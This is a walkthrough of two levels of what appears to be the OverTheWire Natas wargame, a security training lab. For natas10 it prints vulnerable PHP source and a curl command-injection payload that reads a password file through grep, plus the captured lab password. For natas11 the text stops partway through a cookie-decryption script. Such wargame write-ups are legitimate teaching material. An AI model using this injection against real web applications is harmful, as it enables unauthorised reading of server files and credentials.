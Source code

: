 	   	...
natas10:
	1. Visit http://natas10.natas.labs.overthewire.org
	2. We're prompted with an Authentication dialog.
	3. Login with "natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu"
	4. $ curl http://natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu@natas10.natas.labs.overthewire.org/index-source.html
		...
		<pre>
		<?
		$key = "";

		if(array_key_exists("needle", $_REQUEST)) {
		    $key = $_REQUEST["needle"];
		}

		if($key != "") {
		    if(preg_match('/[;|&]/',$key)) {
		        print "Input contains an illegal character!";
		    } else {
		        passthru("grep -i $key dictionary.txt");
		    }
		}
		?>
		</pre>
		...
	5. They've blocked us from using ";" or "&" characters. That's fine.
		grep -i . /etc/natas_webpass/natas11 # dictionary.txt
	  $ curl -d "needle=. /etc/natas_webpass/natas11 #&submit=" http://natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu@natas10.natas.labs.overthewire.org/
	  	...
	  	<pre>
	  	U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
	  	</pre>
	  	...
natas11:
	1. Visit http://natas11.natas.labs.overthewire.org
	2. We're prompted with an Authentication dialog.
	3. Login with "natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK"
	4. $ curl -v http://natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK@natas11.natas.labs.overthewire.org/
		...
		< Set-Cookie: data=ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw%3D
		...
	5.
		...
		<?php
		$defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");
		echo json_encode($defaultdata);
		function xor_encrypt($in) {
		    $key = 'qw8J';
		    $text = '{"showpassword":"no","bgcolor":"#ffffff"}';
		    $outText = '';
